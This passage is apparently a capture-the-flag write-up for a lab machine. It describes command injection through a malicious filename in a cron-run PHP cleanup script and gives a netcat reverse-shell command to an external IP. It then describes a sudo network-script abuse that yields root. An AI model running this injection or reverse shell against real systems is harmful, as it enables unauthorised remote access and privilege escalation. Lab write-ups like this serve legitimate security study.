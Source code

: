 1. Identify user account `guly` and an interesting file `check_attack.php` in its home directory. The `check_attack.php` is scheduled to run every 3 minutes and execute with `guly`. It inspects the `/var/www/html/uploads/` folder and remove any unwanted files. The `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");` is used to remove unwanted files, which we can also use to perform command execution by creating unwanted file with intended command as its filename. We can establish a reverse shell session with  `guly` access, by executing  `echo "" > ";nc 10.10.15.73 81 -c bash"`. 

   **[Related Reference](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)**

1. Through `guly` session, we identify an interesting script `/usr/local/sbin/changename.sh` that comes with **sudo access**. The `changename.sh` takes in user inputs, create a network script `ifcfg-guly` and triggers it. After studying the `changename.sh` script, we supplied `NAME /bin/sh` and privilege escalate with root access. 

   **[Related Reference](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)**

<img width="1680" alt="root" src="https://user-images.githubusercontent.com/53229208/67612113-67e89780-f7d2-11e9-9435-7c2d35be2606.png">













